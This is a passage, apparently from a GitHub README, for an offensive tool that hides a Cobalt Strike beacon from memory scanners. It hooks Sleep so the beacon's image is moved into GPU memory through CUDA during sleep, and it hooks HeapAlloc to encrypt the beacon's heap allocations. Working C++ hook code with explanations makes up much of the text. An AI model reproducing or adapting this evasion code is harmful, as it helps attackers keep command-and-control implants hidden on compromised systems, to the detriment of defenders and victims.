 ```cpp
		goto EXIT_ROUTINE;

	printf("MH_EnableHook()\n");
	if (MH_EnableHook(MH_ALL_HOOKS) != MH_OK)
		goto EXIT_ROUTINE;

  [...]
```

### Sleep
This function will be called instead of normal `Sleep` by Cobalt Strike beacon. The whole idea resides here. Before sleeping, `MoveDLLToGPUStrorage` is called and the beacon is moved to GPU memory, the previous data is **not freed**, you can still see it allocated inside the debugger, except it is all 0. Them, `OldSleep` is called, this function points to the normal Windows API. After the sleep is done, `MoveDLLFromGPUStrorage` restores the memory and the execution can continue.

```cpp

void HookedSleep(DWORD dwMilliseconds) {

	std::cout << "Hooked Sleep!\n";
	// so Context cannot be init before CS beacon is fired up, I dunno why... If init before, cuda returns error 201
	Context = initCuda(&Api, &Context);

	ULONG_PTR storageGPU;
	DWORD SizeOfHeaders;

	storageGPU = MoveDLLToGPUStrorage(dll, &SizeOfHeaders, &Api);
	std::cout << "Sleeping....\n";
	OldSleep(dwMilliseconds);
	MoveDLLFromGPUStrorage(dll, storageGPU, SizeOfHeaders, &Api);
}
```

### RtlAllocateHeap
This part is not strictly needed, but I really enjoyed a blog post by [@waldo-irc](https://twitter.com/waldoirc) talking about [heap encryption](https://www.arashparsa.com/hook-heaps-and-live-free/). So I decided to make my own implementation. Please read the @waldo-irc's blog post to have a better understanding on what is happening here.

Cobalt Strike's beacon allocates a heap segment to hold the decrypted config.
The beacon uses `malloc`, which is just a wrapper to `HeapAlloc`. So the call to `HeapAlloc` is actually performed by `ucrtbase.dll`. I choose not to catch all heap allocations because otherwise the program crashes. Only allocations performed by `ucrtbase.dll` are saved (and `msvcrt.dll`). `heapMap` is a map that stores all heap allocations and their size.

> Note: `GetModuleBaseNameA` calls `HeapAlloc`, so `intercept` is used to prevent an infinite recursive call to `HookedHeapAlloc`.

```cpp
BOOL intercept = FALSE;

LPVOID HookedHeapAlloc(HANDLE hHeap, DWORD dwFlags, SIZE_T dwBytes) {
	LPVOID pointerToEncrypt = OldHeapAlloc(hHeap, dwFlags, dwBytes);

	if (intercept)
		return pointerToEncrypt;

	intercept = TRUE;
	if (GlobalThreadId == GetCurrentThreadId()) { // If the calling ThreadId matches our initial thread id then continue

		HMODULE hModule;
		char lpBaseName[256];
```